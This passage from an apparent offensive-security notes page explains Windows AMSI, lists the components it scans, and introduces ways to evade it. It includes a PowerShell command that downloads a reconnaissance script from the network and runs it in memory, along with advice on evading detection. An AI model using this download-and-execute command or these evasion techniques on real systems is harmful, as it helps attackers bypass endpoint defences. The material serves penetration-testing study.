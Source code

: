 > [!TIP]
> Evasion is just a cat & mouse game, what works today could be detected tomorrow, so never rely on only one tool, if possible, try chaining multiple evasion techniques.

## AMSI (Anti-Malware Scan Interface)

AMSI was created to prevent "[[https://en.wikipedia.org/wiki/Fileless_malware|fileless malware]]". Initially, AVs were only capable of scanning **files on disk**, so if you could somehow execute payloads **directly in-memory**, the AV couldn't do anything to prevent it, as it didn't have enough visibility.

The AMSI feature is integrated into these components of Windows.

- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (wscript.exe and cscript.exe)
- JavaScript and VBScript
- Office VBA macros

It allows antivirus solutions to inspect script behavior by exposing script contents in a form that is both unencrypted and unobfuscated.

Running `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` will produce the following alert on Windows Defender.

![[../images/image (1135).png|]]


Notice how it prepends `amsi:` and then the path to the executable from which the script ran, in this case, powershell.exe

We didn't drop any file to disk, but still got caught in-memory because of AMSI.

Moreover, starting with **.NET 4.8**, C# code is run through AMSI as well. This even affects `Assembly.Load(byte[])` to load in-memory execution. Thats why using lower versions of .NET (like 4.7.2 or below) is recommended for in-memory execution if you want to evade AMSI.

There are a couple of ways to get around AMSI:

- **Obfuscation**

Since AMSI mainly works with static detections, therefore, modifying the scripts you try to load can be a good way for evading detection.

However, AMSI has the capability of unobfuscating scripts even if it has multiple layers, so obfuscation could be a bad option depending on how it's done. This makes it not-so-straightforward to evade. Although, sometimes, all you need to do is change a couple of variable names and you'll be good, so it depends on how much something has been flagged.

- **AMSI Bypass**

Since AMSI is implemented by loading a DLL into the powershell (also cscript.exe, wscript.exe, etc.) process, it's possible to tamper with it easily even running as an unprivileged user. Due to this flaw in the implementation of AMSI, researchers have found multiple ways to evade AMSI scanning.

**Forcing an Error**
